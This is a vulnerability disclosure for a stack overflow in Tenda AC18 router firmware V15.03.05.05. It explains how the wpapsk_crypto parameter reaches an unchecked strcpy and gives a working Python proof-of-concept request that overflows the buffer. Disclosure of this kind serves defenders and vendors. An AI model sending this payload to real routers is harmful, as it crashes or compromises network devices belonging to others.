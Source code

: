 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `fromSetWirelessRepeat` function. The `src` variable receives the `wpapsk_crypto` parameter from a POST request and is later assigned to the `v14` variable, which is fixed at 16 bytes. However, since the user can control the input of `wpapsk_crypto`, the statement `strcpy(v14, src);` can cause a buffer overflow. The user-provided `wpapsk_crypto` can exceed the capacity of the `v14` array, triggering this security vulnerability.

![image-20240308151036263](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308151036263.png)

![image-20240308151127759](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308151127759.png)

The `nptr` variable receives the `wifi_chkHz` parameter from a POST request and we make it equal to 0.

![image-20240308151407876](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308151407876.png)

The `v50` variable receives the `security` parameter from a POST request and we make it equal to "wpapsk". 

![image-20240308151511009](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308151511009.png)

![image-20240308151455386](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308151455386.png)

![image-20240308151538527](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308151538527.png)

## PoC

```python
import requests

IP = '192.168.84.101'
url = f"http://{IP}/goform/WifiExtraSet?"
url += "wifi_chkHz=0&wl_mode=0&security=wpapsk&wpapsk_key=aaaaaaa&wpapsk_crypto=" + "s" * 0x600

response = requests.get(url)
```

![image-20240308151600333](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308151600333.png)

